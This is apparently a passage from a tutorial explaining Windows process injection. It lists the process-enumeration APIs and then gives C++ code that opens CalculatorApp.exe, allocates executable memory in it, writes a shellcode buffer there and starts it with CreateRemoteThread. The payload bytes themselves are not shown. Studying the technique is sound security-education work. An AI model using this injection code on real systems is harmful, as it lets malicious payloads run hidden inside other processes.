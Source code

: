 - **CreateToolhelp32Snapshot**: Creates a snapshot of the system’s processes.
- **PROCESSENTRY32**: Contains information about a process, such as the ID associated with the process.
- **Process32First/Process32Next**: Iterates through the list of processes gathered from CreateToolhelp32Snapshot().

&nbsp;

&nbsp;

## The main() function

Calls the GetProcessID() function mentioned earlier. After getting the process ID, it opens a handle to the process, allocates memory to the process, writes the shellcode to the allocated memory, then finally creates a remote thread in order to execute the shellcode.

```C++
int main() {
    std::wstring processName = L"CalculatorApp.exe";
    DWORD procID = GetProcessID(processName);

    if (procID == 0) {
        std::cerr << "Failed to get process ID. Exiting." << std::endl;
        return 1;
    }

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, procID);
    if (hProcess == NULL) {
        std::cerr << "Failed to open process. Error: " << GetLastError() << std::endl;
        return 1;
    }

    LPVOID remoteBuffer = VirtualAllocEx(hProcess, NULL, sizeof(payload), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    if (remoteBuffer == NULL) {
        std::cerr << "Failed to allocate memory in the target process. Error: " << GetLastError() << std::endl;
        CloseHandle(hProcess);
        return 1;
    }

    if (WriteProcessMemory(hProcess, remoteBuffer, payload, sizeof(payload), NULL) == 0) {
        std::cerr << "Failed to write memory in the target process. Error: " << GetLastError() << std::endl;
        VirtualFreeEx(hProcess, remoteBuffer, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    HANDLE remoteThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    if (remoteThread == NULL) {
        std::cerr << "Failed to create remote thread. Error: " << GetLastError() << std::endl;
        VirtualFreeEx(hProcess, remoteBuffer, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }


    std::cout << "Shellcode injected into target process." << std::endl;

    WaitForSingleObject(remoteThread, INFINITE);
    CloseHandle(remoteThread);
    VirtualFreeEx(hProcess, remoteBuffer, 0, MEM_RELEASE);
    CloseHandle(hProcess);
```
